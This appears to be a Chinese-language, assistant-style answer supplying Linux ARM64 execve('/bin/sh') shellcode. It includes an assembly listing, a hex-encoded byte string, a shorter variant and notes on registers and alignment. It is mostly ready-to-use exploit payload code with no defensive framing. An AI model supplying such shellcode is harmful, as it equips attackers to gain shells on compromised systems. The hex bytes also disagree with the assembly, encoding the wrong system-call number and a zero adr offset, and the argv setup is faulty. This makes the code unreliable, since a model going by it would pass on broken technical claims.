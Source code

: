 这里是一个Linux ARM64架构下执行`/bin/sh`的shellcode：

```nasm
; Linux ARM64 execve("/bin/sh") shellcode
; 大小：48 bytes

.global _start
.section .text
_start:
    ; 清零寄存器
    mov x0, xzr          ; x0 = 0
    mov x1, xzr          ; x1 = 0
    mov x2, xzr          ; x2 = 0
    
    ; 构建"/bin/sh"字符串
    adr x8, binsh        ; 加载字符串地址
    mov x0, x8           ; x0 = 路径
    str xzr, [sp, #-16]! ; NULL终止符
    str x0, [sp, #-16]!  ; 参数数组
    mov x1, sp           ; x1 = argv
    
    ; 执行系统调用
    mov x8, #221         ; execve系统调用号
    svc #0              ; 触发系统调用
    
binsh:
    .ascii "/bin/sh"
    .byte 0
```

十六进制形式：
```
\xE0\x03\x1F\xAA\xE1\x03\x1F\xAA\xE2\x03\x1F\xAA\x08\x00\x00\x10
\xE0\x03\x08\xAA\xFF\x43\xBF\xA9\xE0\x43\xBF\xA9\xE1\x03\x00\x91
\x08\x1B\x80\xD2\x01\x00\x00\xD4\x2F\x62\x69\x6E\x2F\x73\x68\x00
```

主要特点和解析：

1. ARM64系统调用约定：
- x0-x7：参数寄存器
- x8：系统调用号
- svc #0：触发系统调用

2. 关键指令解释：
```nasm
mov x0, xzr       ; 使用零寄存器清零
adr x8, binsh     ; 相对寻址加载地址
str xzr, [sp, #-16]!  ; 预减栈操作
svc #0           ; 系统调用指令
```

3. 寄存器使用：
- x0：第一个参数 (路径)
- x1：第二个参数 (argv)
- x2：第三个参数 (envp)
- x8：系统调用号

4. ARM64特有的特点：
- 固定长度指令
- 必须对齐的内存访问
- 不同的寻址模式
- 特有的栈操作

注意事项：
1. 指令对齐要求
2. 栈指针对齐
3. 内存访问限制
4. 系统调用规范

更紧凑的变体：
```nasm
; 优化版本
mov x8, #221
mov x2, xzr
mov x1, xzr
adr x0, sh
svc #0

sh:
.ascii "/bin/sh"
.byte 0
```

使用时需要考虑：
1. ARM64特有的保护机制
2. 内存对齐要求
3. 指令集限制
4. 运行环境兼容性

与x86架构的区别：
1. 指令编码更规则
2. 寄存器使用更灵活
3. 内存访问更严格
4. 系统调用方式不同
